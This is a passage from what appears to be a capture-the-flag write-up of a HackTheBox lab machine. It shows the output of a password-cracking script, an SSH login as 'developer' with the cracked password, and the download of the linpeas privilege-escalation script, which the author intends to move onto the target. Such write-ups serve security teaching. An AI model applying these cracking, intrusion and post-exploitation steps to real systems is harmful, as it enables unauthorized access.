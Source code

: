 ```
    print("Failed to crack the password.")
```

```
python3 crack2.py
Tested 1000 passwords so far...
Tested 2000 passwords so far...
Tested 3000 passwords so far...
Tested 4000 passwords so far...
Tested 5000 passwords so far...

Password cracked: 25282528
Success! The password is: 25282528
```
We can now try to ssh into user developer 
```
ssh developer@10.10.11.55
The authenticity of host '10.10.11.55 (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.55' (ED25519) to the list of known hosts.
developer@10.10.11.55's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Apr 27 11:25:32 PM UTC 2025

  System load:           0.0
  Usage of /:            67.6% of 6.79GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:fe95:5ae0


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

developer@titanic:~$ ls
gitea  mysql  user.txt
```
I will now download linpeas onto my box and then on target 
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
--2025-04-27 19:27:08--  https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
Resolving github.com (github.com)... 140.82.113.3
Connecting to github.com (github.com)|140.82.113.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://github.com/peass-ng/PEASS-ng/releases/download/20250424-d80957fb/linpeas.sh [following]
```